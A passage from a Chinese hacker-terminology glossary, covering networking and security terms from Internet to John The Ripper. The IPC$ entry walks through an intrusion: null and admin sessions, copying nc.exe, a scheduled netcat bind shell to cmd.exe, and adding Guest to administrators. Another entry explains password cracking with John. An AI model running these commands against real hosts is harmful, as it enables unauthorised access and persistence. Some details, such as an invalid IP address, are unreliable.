Internet 最早来源于美国国防部高级研究计划局 DARPA（Defense Advanced Research Projects Agency）的前身 ARPA 建立的 ARPAnet，该网于 1969 年投入使用。从 60 年代开始，ARPA 就开始向美国国内大学的计算机系和一些私人有限公司提供经费，以促进基于分组交换技术的计算机网络的研究。1968 年，ARPA 为 ARPAnet 网络项目立项，这个项目基于这样一种主导思想：**网络必须能够经受住故障的考验而维持正常工作，一旦发生战争，当网络的某一部分因遭受攻击而失去工作能力时，网络的其它部分应当能够维持正常通信。**

最初，ARPAnet 主要用于军事研究目的，它有五大特点：

- 支持资源共享；
- 采用分布式控制技术；
- 采用分组交换技术；
- 使用通信控制处理机；
- 采用分层的网络通信协议。

1972 年，ARPAnet 在首届计算机后台通信国际会议上首次与公众见面，并验证了分组交换技术的可行性。由此，ARPAnet 成为现代计算机网络诞生的标志。ARPAnet 在技术上的另一个重大贡献是 TCP/IP 协议簇的开发和使用。

1980 年，ARPA 投资把 TCP/IP 加进 Unix（BSD4.1 版本）的内核中，在 BSD4.2 版本以后，TCP/IP 协议即成为 Unix 操作系统的标准通信模块。1982 年，Internet 由 ARPAnet、MILNET 等几个计算机网络合并而成，作为 Internet 的早期骨干网。ARPAnet 试验并奠定了 Internet 存在和发展的基础，较好地解决了异种机网络互联的一系列理论和技术问题。

1983 年，ARPAnet 分裂为两部分：ARPAnet 和纯军事用的 MILNET。该年 1 月，ARPA 把 TCP/IP 协议作为 ARPAnet 的标准协议。其后，人们称呼这个以 ARPAnet 为主干网的网际互联网络为 Internet，TCP/IP 协议簇便在 Internet 中进行研究试验，并改进成为使用方便、效率极好的协议簇。与此同时，局域网和其它广域网的产生和蓬勃发展对 Internet 的进一步发展起了重要的作用。其中，最为引人注目的就是美国国家科学基金会 NSF（National Science Foundation）建立的美国国家科学基金网 NSFnet。

1986 年，NSF 建立起了六大超级计算机中心。为了使全国的科学家、工程师能够共享这些超级计算机设施，NSF 建立了自己的基于 TCP/IP 协议簇的计算机网络 NSFnet。NSF 在全国建立了按地区划分的计算机广域网，并将这些地区网络和超级计算中心相联，最后将各超级计算中心互联起来。地区网的构成一般是由一批在地理上局限于某一地域、在管理上隶属于某一机构或在经济上有共同利益的用户的计算机互联而成。

连接各地区网上主通信结点计算机的高速数据专线构成了 NSFnet 的主干网。这样，当一个用户的计算机与某一地区相联以后，它除了可以使用任一超级计算中心的设施、可以同网上任一用户通信，还可以获得网络提供的大量信息和数据。这一成功使得 NSFnet 于 1990 年 6 月彻底取代了 ARPAnet 而成为 Internet 的主干网。

> 《中国互联网大事记》第 21 条记载为：“1994 年 4 月 20 日，NCFC 工程通过美国 Sprint 公司连入 Internet 的 64K 国际专线开通，实现了与 Internet 的全功能连接。从此中国被国际上正式承认为真正拥有全功能 Internet 的国家。”

## Internet Anonym Pro 应用程序

这是一套功能强大的网络身份隐藏工具软件，如图 I-9 所示，可以通过它很简单地隐藏自己的身份（IP），或是将我们所经过的网站讯息、Cookies、暂存文件都消除，像网络隐形人一般地出入所有的网络，不留痕迹。


## ICANN 黑客技术基础

互联网名称与数字地址分配机构（Internet Corporation for Assigned Names and Numbers，ICANN）成立于 1998 年 10 月，是一个集合了全球网络界商业、技术及学术各领域专家的非营利性国际组织，负责互联网协议（IP）地址的空间分配、协议标识符的指派、通用顶级域名（gTLD）以及国家和地区顶级域名（ccTLD）系统的管理，以及根服务器系统的管理。这些服务最初是在美国政府合同下由互联网号码分配当局（Internet Assigned Numbers Authority，IANA）以及其它一些组织提供。现在，ICANN 行使 IANA 的职能。

作为一个公私结合组织，ICANN 致力于维护互联网运行的稳定性，促进竞争，广泛代表全球互联网组织，以及通过自下而上和基于一致意见的程序制定与其使命相一致的政策。

## Internet Explorer 黑客技术基础

Windows Internet Explorer，原称 Microsoft Internet Explorer，简称 MSIE（一般称成 Internet Explorer，简称 IE），是微软公司推出的一款网页浏览器。

## Ipconfig 操作系统及其相关

Ipconfig 命令用来显示所有当前的 TCP/IP 网络配置、刷新动态主机配置协议（DHCP）和域名系统（DNS）设置。通过它可以显示所有适配器的 IP 地址、子网掩码、默认网关，运行情况如图 I-10 所示。图 I-10 中表示本机有两个网卡，IP 地址分别为 172.168.4.8.10 与 172.18.2.80。


## IP Sniffer 渗透技术

IP Sniffer 是一款 IP 封包监听工具，如图 I-11 所示，它几乎具备了一个 IP 工具所拥有的全部功能。支持 Windows 2000 以上操作系统。


## IPB论坛 脚本

一款获奖的可扩展的 BBS 系统，国外最优秀的论坛之一。允许你很容易地创建、管理和提升你的在线社区，同时允许你的客户或者用户对产品和服务发表看法，也可以个性化你的客户服务。

## IPC$ 黑客技术基础

IPC$（Internet Process Connection）是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道。通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

IPC$ 是 WinNT/2000 的一项新功能，它有一个特点，即在同一时间内，两个 IP 之间只允许建立一个连接。WinNT/2000 在提供了 IPC$ 功能的同时，在初次安装系统时还打开了默认共享，即所有的逻辑共享（c$、d$、e$……）和系统目录 Winnt 或 Windows（admin$）共享。所有的这些，微软的初衷都是为了方便管理员的管理，但这个方便的功能当然也可能被其他人恶意地利用，也就是 IPC 入侵。

利用 IPC 进行入侵应该是所有黑客技术的初学者的必修科目，因为这个技术是最容易入侵的方法之一，同时也可以获得足够的权限。简单地说，IPC 入侵的思路是先利用工具（如流光）得到远程主机的用户名与密码，再与目标主机建立 IPC 管道，然后复制特定的文件（可以是木马或开启其他 Telnet 的程序）到对方的主机，设定计划任务后让其运行。

当然，前提是对方必须开放了 **139 端口** 或 **445 端口**，也就是说必须开放了 **NETBIOS** 服务，同时没有防火墙阻止，最关键的是还需要知道对方的管理员用户名与密码。

一般来说，IPC 入侵常常针对的目标就是那些没有设置密码，且用户名为默认的 administrator 的系统，这些系统没有进行必要的配置，所以较容易得手。以下是进行 IPC 入侵常用的系统命令：

- 建立/删除 IPC$ 连接的命令
  - 建立空连接
  - 建立非空连接
  - 删除连接
- 在 IPC$ 连接中对远程主机的操作命令
  - 查看远程主机的共享资源（看不到默认共享）
  - 查看远程主机的当前时间
  - 得到远程主机的 NETBIOS 用户名列表
  - 映射/删除远程共享
  - 向远程主机复制文件

```txt
net use \\127.0.0.1\ipc$ "" /user:""
net use \\127.0.0.1\ipc$ "密码" /user:"用户名"
net use \\127.0.0.1\ipc$ /del

net view \\127.0.0.1
net time \\127.0.0.1
nbtstat -A 127.0.0.1
net use z: \\127.0.0.1\c
net use z: /del
copy 路径\文件名 \\IP\共享目录名
copy c:\xinxin.exe \\127.0.0.1\c$
copy ...
\\127.0.0.1\c$\xinxin.exe c:\
```

（6）远程添加计划任务：`at \\IP 时间 程序名`，如：`at \\127.0.0.0 11:00 xinxin.exe`

注意：时间尽量使用 24 小时制；如果你打算运行的程序在系统默认搜索路径（比如 system32/）下则不用加路径，否则必须加全路径。

假设已经找到了一台这样的主机，地址是 139.223.200.xxx，管理员账号是 Administrator，密码是 123456。下面是具体的入侵过程：

首先与远程主机建立 IPC 会话：

```txt
F:\>net use \\139.223.200.xxx\ipc$ "123456" /user:"Administrator"
```

命令成功完成，接着复制 nc 过去：

```txt
F:\>copy nc.exe \\139.223.200.xxx\admin$
```

已复制 1 个文件，查看远程主机的时间：

```txt
F:\>net time \\139.223.200.xxx
```

命令成功完成，设定远程主机的计划任务：

```txt
F:\>at \\139.223.200.xxx 10:38 nc -l -p 1234 -t -e cmd.exe
```

最后利用 Telnet 登录上去：

```txt
F:\>Telnet 139.223.200.xxx 1234
```

登录上去后最简单的保护战果的方式就是将 GUEST 激活并加入 administrator 组，输入如下命令：

```txt
C:\WINNT\system32>net user Guest 30906766

net use Guest 30906766
The command completed successfully.

C:\WINNT\system32>net localgroup administrators Guest /add

net localgroup administrators Guest /add .
The command completed successfully.
```

当然，IPC 会话不可能每次都成功，以下是 IPC 连接失败的一些常见原因：

- 你的系统不是 NT 或以上操作系统；
- 对方没有打开 IPC$ 默认共享；
- 对方未开启 139 或 445 端口（或被防火墙屏蔽）；
- 你的命令输入有误（比如缺少了空格等）；
- 用户名或密码错误（空连接当然无所谓了）。

也可以根据错误号分析原因：  
错误号 5，拒绝访问：很可能你使用的用户没有管理员权限，得先提升权限；  
错误号 51，Windows 无法找到网络路径：网络有问题；

## 黑客术语图文辞典 → IPSec

- 错误号 53，找不到网络路径：IP 地址错误；目标未开机；目标 lanmanserver 服务未启动；目标有防火墙（端口过滤）。
- 错误号 67，找不到网络名：你的 lanmanworkstation 服务未启动；目标删除了 IPC$。
- 错误号 1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个 IPC$，请删除再连。
- 错误号 1326，未知的用户名或错误密码：原因很明显了。
- 错误号 1792，试图登录，但是网络登录服务没有启动：目标 netlogon 服务未启动。
- 错误号 2242，此用户的密码已经过期：目标有账号策略，强制定期要求更改密码。

不过，现在公网上的主机已经很少直接开放 139 端口或 445 端口，各管理员的安全意识也都有所加强，IPC 入侵的实战价值已经不大，不过在内网渗透中还是可能会发挥一些作用。


## IPchains 应用程序·安全技术

IPchains 是一个用来安装、维护、检查 Linux 内核的防火墙规则和 IP 伪装软件，随 Red Hat 捆绑发行。IPchains 也是自由软件，在网上可自由下载，主页：http://www.adelaide.net.au/~rustcorp/Linux/ipchains


## IPFWADM 安全技术

IPFWADM 是 Linux 自带的一个系统工具，可以让使用者方便管理某些程序与其 TCP、UDP、ICMP 封包的进出状况。简单地说，管理员可以规定哪些封包可以进入，其中指定的条件包括：来自于某个 IP，或某段 IP 范围的主机；哪一个特定的端口号；哪一种特定的通信协定；或是上述各种条件的组合……同样地，对于准备送往主机外的封包，我们也可以具有相同程度的管理控制。


## IPSec 安全技术

IPSec（Internet Protocol Security）是从 Windows 2000 及其后续版本中新提供的一种安全技术，它是一种基于点到点的安全模型，可以实现更高层次的局域网数据安全性。它是 IP 层提供安全服务，使系统能按需选择安全协议，决定服务所使用的算法及放置需求服务所需密钥到相应位置。

**IPSec 用来保护一条或多条主机与主机间、安全网关与安全网关间、安全网关与主机间的路径。**在 IPSec 保护下的通信可以有效地避免（嗅探）攻击，因为此时的数据都已经过安全的加密，所以，IPSec 在安全性要求较高的场合有着重要的作用。

它把几种安全技术结合在一起形成一个较为完整的体系，受到了众多厂商的关注和支持。通过对数据加密、认证、完整性检查来保证数据传输的可靠性、私有性和保密性。**优点：它定义了一套用于认证、保护私有性和完整性的标准协议。**

IPSec 支持一系列加密算法，如 DES、三重 DES、IDEA 等。它检查传输的数据包的完整性，以确保数据没有被修改。IPSec 用来在多个防火墙和服务器之间提供安全性，可确保运行在 TCP/IP 协议上的 VPNs 之间的互操作性。具体设置情况请见 **IP 安全策略** 词条。

## IP 欺骗 渗透技术

IP 欺骗是一门高级的攻击技术，由于它利用的是 IP 协议本身的缺陷，所以在特定的情况下，即使对方主机没有任何系统漏洞也可能被 IP 欺骗攻破。

IP 欺骗的核心思想是通过伪造的数据包冒充目标主机信任的主机，并与其通信。要达到这个目的，首先攻击者必须使目标机所信任的主机失去工作能力（例如使用 SYN FLOOD），并提取目标机发出的 TCP 序列号进行猜测数据序列号，成功后开始伪装被信任的远程计算机，同时建立基于地址验证的连接。连接一旦成功，攻击者就会取代被信任主机的角色，使用相关命令放置后门程序，进行一系列的恶意行动。

## IP Tables 操作系统及其相关

Linux 下防火墙的重要组成部分，可以对内核中的网络连接规则进行操作。事实上，IP Tables 只是一个管理内核包过滤的工具，它为用户配置防火墙规则提供了方便。

IP Tables 可以加入、插入或删除内核包过滤表格（链）中的规则，实际上真正来执行这些规则的是 netfilter 及其相关模块。详情请见 **Netfilter/iptables** 词条。

## IP 黑客技术基础

IP 是英文 Internet Protocol 的缩写，意思是“网络之间互连的协议”，也就是为计算机网络相互连接进行通信而设计的协议。它是互联网使用最多，也是最广泛的协议（注意，没有之一）。

在因特网中，它是能使连接到网上的所有计算机网络实现相互通信的一套规则，规定了让计算机在因特网上进行通信时应当遵守的规则。任何厂家生产的计算机系统，只要遵守 IP 协议就可以与因特网互连互通。正是因为有了 IP 协议，因特网才得以迅速发展成为世界上最大的、开放的计算机通信网络。因此，IP 协议也可以叫做“因特网协议”。

IP 是一个无连接的协议，主要就是负责在主机间寻址并为数据包设定路由。在交换数据前它并不建立会话，因为它不保证正确传递。另一方面，数据在被收到时，IP 不需要收到确认，所以它是不可靠的。但是它一旦与 **TCP** 协议结合，形成 TCP/IP 协议就成了互联网最可靠的保证。IP 地址负责运送数据包，而 TCP 负责让数据包准确地到达，具体情况请见 **TCP/IP** 词条。


## IP 地址

IP 地址标识着网络中一个系统的位置，它是计算机在网络中的准确地址。在公网中，全世界的每台计算机都拥有唯一的 IP 地址，这种机制保证了 IP 数据包能够准确地传输到目的地。

每个 IP 地址都是由两部分组成的：网络号和主机号。其中网络号标识一个物理的网络，同一个网络上所有主机需要同一个网络号，该号在互联网中是唯一的；而主机号确定网络中的一个工作站、服务器、路由器及其他 TCP/IP 主机。对于同一个网络号来说，主机号是唯一的，每个 TCP/IP 主机由一个逻辑 IP 地址确定。

**现在的 IP 网络使用 32 位地址，以点分十进制表示，如 172.16.0.0。地址格式为：IP 地址 = 网络地址 + 主机地址，或 IP 地址 = 网络地址 + 子网地址 + 主机地址。**

网络地址是由 Internet 权力机构（InterNIC）统一分配的，目的是为了保证网络地址的全球唯一性。主机地址是由各个网络的系统管理员分配。因此，网络地址的唯一性与网络内主机地址的唯一性确保了 IP 地址的全球唯一性。

按照网络规模的大小，IP 地址可以分为 A、B、C、D、E 五类，其中 A、B、C 类是三种主要的类型地址，D 类专供多点传送用的多播地址，E 类用于扩展备用地址。这里我们主要了解 A、B、C 三类主要的类型地址：

### A 类 IP 地址

一个 A 类 IP 地址由 1 字节的网络地址和 3 字节主机地址组成，网络地址的最高位必须是“0”，地址范围从 1.0.0.0 到 126.0.0.0。可用的 A 类网络有 126 个，每个网络能容纳 1 亿多个主机。需要注意的是，网络号不能为 127，这是因为该网络号被保留用作回路及诊断功能。

### B 类 IP 地址

一个 B 类 IP 地址由 2 个字节的网络地址和 2 个字节的主机地址组成，网络地址的最高位必须是“10”，地址范围从 128.0.0.0 到 191.255.255.255。可用的 B 类网络有 16382 个，每个网络能容纳 6 万多个主机。

### C 类 IP 地址

一个 C 类 IP 地址由 3 字节的网络地址和 1 字节的主机地址组成，网络地址的最高位必须是“110”，范围从 192.0.0.0 到 223.255.255.255。C 类网络可达 209 万余个，每个网络能容纳 254 个主机。

### D 类地址用于多点广播（Multicast）

D 类 IP 地址第一个字节以“1110”开始，它是一个专门保留的地址。它并不指向特定的网络，目前这一类地址被用在多点广播（Multicast）中。多点广播地址用来一次寻址一组计算机，它标识共享同一协议的一组计算机。

### E 类 IP 地址

以“11110”开始，为将来使用保留，全零（“0.0.0.0”）地址对应于当前主机；全“1”的 IP 地址（“255.255.255.255”）是当前子网的广播地址。

一个机构或网络要连入 Internet，必须申请公用 IP 地址。但是考虑到网络安全和内部实验等特殊情况，在 IP 地址中专门保留了三个区域作为私有地址，其地址范围如下：

- 10.0.0.0/8：10.0.0.0～10.255.255.255
- 172.16.0.0/12：172.16.0.0～172.31.255.255
- 192.168.0.0/16：192.168.0.0～192.168.255.255

使用保留地址的网络只能在内部进行通信，而不能与其他网络互连。我们常说的内网一般都是用这个 IP 地址进行分配的，因为本网络中的保留地址同样也可能被其他网络使用；如果进行网络互连，那么寻找路由时就会因为地址的不唯一而出现问题。但是这些使用保留地址的网络可以通过将本网络内的保留地址翻译转换成公共地址（NAT）的方式实现与外部网络的互连。这也是保证网络安全的重要方法之一。


IPV6 是 Internet Protocol Version 6 的缩写，它是 IETF（互联网工程任务组，Internet Engineering Task Force）设计的用于替代现行版本 IP 协议（IPV4）的下一代 IP 协议。目前全球因特网所采用的协议族是 TCP/IP 协议族，IP 是 TCP/IP 协议族中网络层的协议，是 TCP/IP 协议族的核心协议。

目前 IP 协议的版本号是 4（简称为 IPV4），它的下一个版本就是 IPV6。IPV6 正处在不断发展和完善的过程中，它在不久的将来将取代目前被广泛使用的 IPV4。

目前世界上所使用的第二代互联网 IPV4 技术，核心技术属于美国。它的最大问题是网络地址资源有限，从理论上讲，IPV4 技术可使用的 IP 地址有 43 亿个，其中北美占有 3/4，约 30 亿个，而人口最多的亚洲只有不到 4 亿个，中国只有 3 千多万个，只相当于美国麻省理工学院的数量。地址不足，严重地制约了我国及其他国家互联网的应用和发展。

随着电子技术及网络技术的发展，计算机网络将进入人们的日常生活，可能身边的每一样东西都需要连入全球因特网。但是与 IPV4 一样，IPV6 一样会造成大量的 IP 地址浪费。准确地说，使用 IPV6 的网络并没有 2^128-1（符号 ^ 表示升幂，下同）个能充分利用的地址。

首先，要实现 IP 地址的自动配置，局域网所使用的子网的前缀必须等于 64，但是很少有一个局域网能容纳 2^64 个网络终端；其次，由于 IPV6 的地址分配必须遵循聚类的原则，地址的浪费在所难免。

如果说 IPV4 实现的只是人机交互的话，那么 IPV6 则扩展到任意事物之间的交互，它不仅可以为人类服务，还将服务于众多硬件设备，如家用电器、传感器、远程照相机、汽车等，它无处不在，可以深入社会每个角落，实现全球宽带！而且它所带来的经济效益将是非常巨大。

与 IPV4 相比，IPV6 具有以下几个优势：

1. IPV6 具有更大的地址空间。IPV4 中规定 IP 地址长度为 32，即有 2^32-1 个地址；而 IPV6 中 IP 地址的长度为 128，即有 2^128-1 个地址。
2. IPV6 使用更小的路由表。IPV6 的地址分配一开始就遵循聚类（Aggregation）的原则，使得路由器能在路由表中用一条记录（Entry）表示一片子网，大大减少了路由器中路由表的长度，提高了路由器转发数据包的速度。
3. IPV6 增加了增强的组播（Multicast）支持以及对流的支持（Flow Control），这使得网络上的多媒体应用有了长足发展的机会，为服务质量（QoS，Quality of Service）控制提供了良好的网络平台。
4. IPV6 加入了对自动配置（Auto Configuration）的支持。这是对 DHCP 协议的改进和扩展，使得网络（尤其是局域网）的管理更加方便和快捷。
5. IPV6 具有更高的安全性。在使用 IPV6 网络中用户可以对网络层的数据进行加密并对 IP 报文进行校验，极大地增强了网络的安全性。

## IP 安全策略 安全技术

IP 安全策略（IP Security）即 IPSec 策略，用来配置 IPSec 安全服务。运用它可以让 IPSec 在实际的数据通信中发挥作用，这些策略可为现有网络中的多数通信类型提供各种级别的保护。

配置 IPSec 策略可以满足计算机、应用程序、组织单位、域、站点或全局企业的安全需要。我们可以通过系统提供的“IP 安全策略”管理单元来为 Active Directory 中的计算机（对于域成员）或本地计算机（对于不属于域的计算机）定义 IPSec 策略。下面运用 IP 安全策略来关闭 139 端口，其他端口的关闭方法以此类推。

### 一、创建 IP 安全策略

1. 单击“开始”→“运行”，在“运行”对话框窗口的“打开”编辑框中输入“mmc”后单击“确定”按钮，启动“控制台”对话框窗口。
2. 单击“控制台”→“文件”→“添加/删除管理单元”选项，进入“添加/删除管理单元”窗口。单击“独立”选项卡中的“添加”按钮，启动“添加”窗口。
3. 在“可用的独立管理单元”列表中选定“IP 安全策略管理”。
4. 单击“添加”按钮，进入“选择计算机”窗口，并利用各个单选按钮确定当前 IP 安全策略待管理的计算机，可以将管理范围设置为：本地计算机、管理此计算机所在域的域架构、管理另一域或另外一台计算机，如图 1-12 所示。
5. 逐一单击“完成”按钮与“关闭”按钮即可。


### 二、设置 IP 过滤器

IP 安全属性的每一个组成部分都称为安全策略，而 IP 过滤器又是安全策略中的重要组成部分，因此设置 IP 过滤器对保护网络数据的传输有着极为重要的作用。下面我们就来添加新 IP 过滤器：

1. 在“控制台”窗口左侧“控制台根节点”下的“IP 安全策略”上单击鼠标右键（前提是你已经按照前面的方法创建了 IP 安全策略），然后选择“管理 IP 筛选器表和筛选器操作”选项，出现“管理 IP 筛选器表和筛选器操作”窗口，如图 1-13 所示。


2. 单击“管理 IP 筛选器列表”选项卡中的“添加”按钮，进入“IP 筛选器列表”窗口，在“名称”编辑框中键入新创建 IP 过滤器的名称（如“端口关闭”）并单击“添加”按钮，然后单击“下一步”按钮。在寻址栏的源地址应选择“任何 IP 地址”，目标地址选择“我的 IP 地址”（不必选择镜像），如图 1-14 所示。


注意类型应为 TCP，并设置 IP 协议端口从任意端口到此端口 139，最后点击“确定”即可，如图 1-15 所示。


这时在“IP 筛选器列表”中会出现一个“新 IP 筛选器”，选中它，切换到“筛选器操作”标签栏，依次点击“添加”→“名称默认为‘新筛选器操作’”→“添加”→“阻止”→“完成”。

新策略需要被激活才能起作用，具体方法是：在“新 IP 安全策略”上点右键，“指派”刚才制定的策略。这条策略实施后就顺利封堵了 139 端口。

## IP 地址过滤（安全技术）

IP 地址过滤即对互联网上的特定 IP、网段地址的访问作出相应的操作。

## IP 限制（黑客技术基础）

指让服务器对某个 IP 地址访问进行限制，禁止指定的 IP 访问某些资源。

## IRC（黑客技术基础）

IRC 是英文 Internet Relay Chat 的缩写，1988 年起源于芬兰，已广泛应用于全世界 60 多个国家，它是“talk”的替代工具，但功能远远超过“talk”。IRC 是多用户、多频道的讨论系统，许多用户可以在一个被称为“channel”的地方就某一话题交谈或私谈。它允许整个 Internet 的用户们之间作即时的交谈，每个 IRC 的使用者都有一个 nickname，所有的沟通就在他们所在的 channel 内以不同的 nickname 交谈。早期的黑客们也都在 IRC 里面进行交流，直到现在 IRC 也是很多人重要的交流工具。

## IRIS（应用程序）

IRIS 是 eEye 安全公司推出的一款功能强大的嗅探工具，它的一个非常好的方面就是把抓包和解码、察看包的内容集成在一个界面里面。这样你就可以一边抓包一边察看包的内容，以及包头含义等等。其解码支持大部分的 TCP/IP 协议，并拥有包的编辑以及重新发送功能，你可以对自己抓到的数据报文进行简单修改然后重新发送。同时，IRIS 也带简单的流量统计分析功能。

## ISAPI（操作系统及其相关）

ISAPI 服务器扩展是可以被 HTTP 服务器加载和调用的 DLL，它主要用于增强符合 IIS 服务器 API 的服务器的功能。ISAPI 通过浏览器应用程序调用，并且将相似的功能提供给通用网关接口（CGI）应用程序。

ISAPI 可以让用户填写信息，然后单击提交按钮将数据发送到 WEB 服务器并调用 ISAPI 所设定的相应 DLL，这些 DLL 来处理这些信息并提供自定义内容或将这些信息存储在数据库中。WEB 服务器扩展可以使用数据库中的信息动态生成 WEB 页，然后将其发送到客户计算机进行显示。应用程序可以使用 HTTP 和 HTML 添加其他自定义功能并将数据提供给客户端。服务器扩展和筛选器均在 WEB 服务器的进程空间中运行，这样就为扩展服务器的功能提供了有效的手段。

## ISO 标准 黑客技术基础

ISO 是国际标准化组织（International Organization for Standardization）的简称，是一个全球性的非政府组织，是国际标准化领域中一个十分重要的组织。ISO 的任务是促进全球范围内的标准化及其有关活动，以利于国际间产品与服务的交流，和在知识、科学、技术、经济活动中发展国际间的相互合作。它显示了强大的生命力，吸引了越来越多的国家参与其活动。

## ISO 文件 操作系统及其相关

ISO 文件是复制光盘上全部信息而形成的镜像文件，一般以 .iso 为扩展名。许多 Linux 操作系统的安装包都是以 ISO 文件的形式发布的。在得到相应的 ISO 文件后，可以将其内容刻录到光盘上，这样做出来的光盘与购买的安装光盘基本上是相同的。

## ISP 黑客技术基础

ISP 的英文是 Internet Service Provider，翻译为互联网服务提供商，即向广大用户综合提供互联网接入业务、信息业务和增值业务的电信运营商。用户平时如果要连上因特网，都必须联系当地的 ISP，也就是说，ISP 管理着当地网络，如电信和网通就是我国两大 ISP。

## IIS 管理器 操作系统及其相关

IIS 管理器是一个用于配置应用程序池或网站、FTP 站点、SMTP 或 NNTP 站点的图形界面。利用 IIS 管理器，你可以配置 IIS 安全、性能和可靠性功能。可添加或删除站点；启动、停止和暂停站点；备份和还原服务器配置；创建虚拟目录以改善内容管理。在早期版本的 IIS 中，该工具名为 Internet 服务管理器，如图 I-16 所示，为 IIS 6.0 的管理器。


## Itanium 操作系统及其相关

Itanium（官方中文名称为安腾）是英特尔（Intel）与惠普（HP）合作开发的先进纯 64 位微处理器，基于 IA-64 架构，一般用作服务器处理器。IA-64 架构就是 EPIC（Explicitly Parallel Instruction Computing）的 64 位架构，目前已经研发到第二代。由于此类芯片专门用于服务器，所以售价比较昂贵，此类芯片单价一般在 8000 RMB 以上。

## Java 程序语言与开发

Java 是由 Sun 公司于 1995 年 5 月推出的 Java 程序设计语言和 Java 平台的总称。Java 分为三个体系：Java SE、Java EE、Java ME。

Java 平台由 Java 虚拟机（Java Virtual Machine）和 Java 应用编程接口（Application Programming Interface，简称 API）构成。Java 应用编程接口为 Java 应用提供了一个独立于操作系统的标准接口，可分为基本部分和扩展部分。在硬件或操作系统平台上安装一个 Java 平台之后，Java 应用程序就可以运行了。

由于 Java 程序可以只编译一次就能在各种系统中运行，所以目前几乎所有的操作系统都可以嵌入 Java 平台。Java 应用编程接口已经从 1.1.x 版发展到 1.2 版，目前常用的 Java 平台是 Java 1.4，而最近的版本为 Java 1.6。

时下 Java 也是最流行的语言，它的“**一次编译，处处执行**”的特性让其成为许多程序员的新宠，大有超越其前辈的气势。

## JDK 程序语言与开发

JDK（Java Development Kit）是 Sun Microsystems 针对 Java 开发员的产品。自从 Java 推出以来，JDK 已经成为使用最广泛的 Java SDK（Software Development Kit）。

- javac：编译器，将源程序转成字节码
- jar：打包工具，将相关的类文件打包成一个文件
- javadoc：文档生成器，从源码注释中提取文档
- jdb：debugger，查错工具

## JavaScript 程序语言与开发，脚本

JavaScript 是一种由 Netscape 的 LiveScript 发展而来的脚本语言，主要目的是为了解决服务器端语言（比如 Perl）遗留的速度问题。它直接把代码写到 HTML 文档中，浏览器读取它们时才进行编译、执行，所以能查看 HTML 源文件就能查看 JavaScript 源代码。JavaScript 没有独立的运行窗口，浏览器当前窗口就是它的运行窗口。

当时服务端需要对数据进行验证，由于网络速度相当缓慢，使得验证步骤浪费的时间太多。于是 Netscape 的浏览器 Navigator 加入了 JavaScript，提供了数据验证的基本功能。

当用户访问指定页面时，验证数据的 JavaScript 代码就已经嵌入到网页中传输了过来，用户输入数据后先用 JavaScript 代码进行处理，检测是否合法再传输给服务器。

JavaScript 可以做到及时回应使用者的需求事件而不用通过网络来回传输，所以当一位使用者输入一项资料时，他不用经过传给服务器端（Server）进行处理后再传回来的过程，而直接可以被客户端（Client）的应用程序所处理。你也可以把它想像成是一个可执行程序在你的客户端上执行！

另外，JavaScript 还使网页增加了互动性，使有规律重复的 HTML 文段简化，减少了下载时间。JavaScript 能及时响应用户的操作，对提交表单做即时的检查，无需浪费时间交由 CGI 验证。

很多人都以为 Java 和 JavaScript 是同一类语言，其实并不一样。Java 是一种比 JavaScript 更复杂的程序语言，而 JavaScript 则相当容易理解。JavaScript 创作者不怎么注重程序技巧，所以许多 Java 的特性在 JavaScript 中并不支持。

另外，许多其他脚本（XSS、ASP、Ajax 技术等）的开发都要用到 JavaScript，所以 JavaScript 的用途相当广泛。

## JAVA 反编译器 程序语言与开发

JAVA 反编译器是将已经编译好的 JAVA 程序进行反编译的工具，一般是反编译成 CLASS 文件，再翻译成 JAVA 源程序。

## JAVA 脚本 脚本

即 JavaScript。详见 JDK。

## John The Ripper 黑客工具

John The Ripper 是老牌密码破解工具（以下简称 John），是个快速的多平台密码破解程序，可对已知密文的密码及明文进行破解并获取，主要用于破解 Linux 中常见的 Shadow 密码，支持的平台包括 Linux、FreeBSD、Solaris、DOS、Windows 等。除此之外，John 还能破解很多其他类型的密码，比如 Windows NT 系列中的 LM 密码散列（就像 LC5）。

Linux 刚问世的时候，其密码都是用明文存放在“/etc/passwd”这个文件中的，而且所有人都拥有对这个文件的读取权限。后来发现明文的安全性太差，于是就出现了使用 Shadow 这个程序，对 passwd 进行加密，并把密码存放在“/etc/shadow”这个文件中，而 passwd 中不再保存密码。尽管这个 shadow 文件也允许所有人读取，不过由于密码是加密过的，所以安全性上提高了很多。目前大多数的 Linux 中都携带有 shadow 程序套件。

John 的官方地址是：http://www.openwall.com/john/，在 Windows 版中的 John 是可执行文件，不需要安装，而 Linux 版的 John 是公开源码的，所以要简单地处理一下。

先进入 john 的文件夹。使用命令 `cd src` 进入源码文件夹，接着输入命令 `make`，然后是命令 `make clean SYSTEM`，最后是命令 `make clean generic`。这三个 make 命令执行完之后，编译好的 John 就存放在了 John 文件夹中的 run 下了。

它的通用使用格式是：`./john 参数 密码文件`，有三种工作模式参数：`--single`、`--wordlist` 和 `--incremental`，分别代表简单猜解、字典猜解和穷举。下面对 John 的工作模式给大家讲解一下：

- 1. `--single`

简单的猜解，比如用户名是 hao，猜解密码的时候可能就会猜 hao123 等。简单的密码（比如常见的单词）都可以用 `--single` 模式来破解。比如我设置的密码是 friday，用这个参数进行猜解几乎还没来得及数秒就已经出结果了……So Fast!

- 2. `--wordlist`

顾名思义，这是字典攻击的模式。使用 `--wordlist=字典名` 来向 John 提供一个可以读取的密码字典，在破解时 John 就会使用字典中的词逐个进行尝试，直到出现匹配的密码。

字典攻击几乎是密码攻击的最后一步了，很少有人会去尝试穷举法，所以一个好的字典文件是十分重要的。John 中自带了一个 25Kb 的密码字典（超过 3000 个密码），不过这个依然是不能满足要求的。

对于 `--wordlist` 这个参数，还有一个与之配套的参数 `--rules`，即对于字典中的密码使用一定的规则进行变换，并进行匹配。举个例子，比如密码是 friday，使用 `--rules` 后就会继续测试如 Friday、FRIDAY 等密码，还有就是如“9”与“(”的变换，都是 `--rules` 中会用到的变换规则。

- 3. `--incremental`

即穷举，如果这个密码真的很难搞的话，那就用这个吧。使用穷举法就看运气了，有可能很快就能破解出来，也有可能几个月都没有反应。

最后讲一下查看密码的方法。比如已经破解的密码文件是 `mypasswd`，想要查看其中破解的密码，就输入 `./john --show mypasswd` 命令即可。John 已经破解的密码会存放在 `john.pot` 文件里，不过里面的东西几乎是不可读的，所以想要查看密码的时候还是使用 `--show` 参数比较方便。

